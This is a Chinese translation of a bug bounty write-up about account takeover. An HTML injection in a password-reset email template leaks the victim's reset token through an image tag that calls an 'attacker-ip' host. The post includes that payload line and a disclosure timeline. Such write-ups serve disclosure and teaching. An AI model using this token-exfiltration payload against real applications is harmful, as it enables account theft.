




# 通过 HTTP 泄漏未经验证的帐户接管

> 原文：<https://infosecwriteups.com/unauthenticated-account-takeover-through-http-leak-33386bb0ba0b?source=collection_archive---------0----------------------->

我用“app”关键字代替应用程序名，因为它是私人程序。

在测试忘记密码功能时，我发现应用程序发送了一个 post 请求，如下图所示:



如果你注意到这个请求，emailBody 使用了一个模板。让我们首先测试，如果我们可以控制这个值，并尝试注入 html。



在上图中，我一直在邮件正文中发送标签，以下是我得到的回复:



正如您所看到的，我们可以控制 emailBody，并且电子邮件模板中使用的用户输入没有经过净化(HTML 注入)。但是等等，有什么影响呢？此时，我想到了尝试 HTTP Leak 来泄露一个受害者的密码重置令牌。

> “HTTP 泄漏”，这是一种情况，HTML 元素和属性的特定组合导致对外部资源的请求被触发——当它不应该被触发时([来源](https://github.com/cure53/HTTPLeaks)

为了实现它，你只需要在[重置链接]之前使用下面的有效负载

```
<img src=\"http://attacker-ip/?id=
```


并将该请求转发给服务器。现在，一旦受害者打开电子邮件，密码重置令牌将被发送到攻击者的 IP 地址，如下图所示:



现在，攻击者可以简单地使用密码重置令牌重置密码，这样，就可以接管应用程序上的任何帐户。

这是与所有主要的电子邮件服务提供商 Gmail 和 Yahoo 一起工作的，虽然这在他们那里不是问题，只是用户在电子邮件模板中的输入没有被净化。

**时间线:**

*   2019 年 1 月 8 日—报告了该问题
*   2019 年 1 月 10 日—审判
*   2019 年 1 月 10 日—已支付赏金

**参考文献:**

[](https://github.com/cure53/HTTPLeaks) [## cure53/HTTPLeaks

### 所有可能的方式，一个网站可以泄漏 HTTP 请求

github.com](https://github.com/cure53/HTTPLeaks)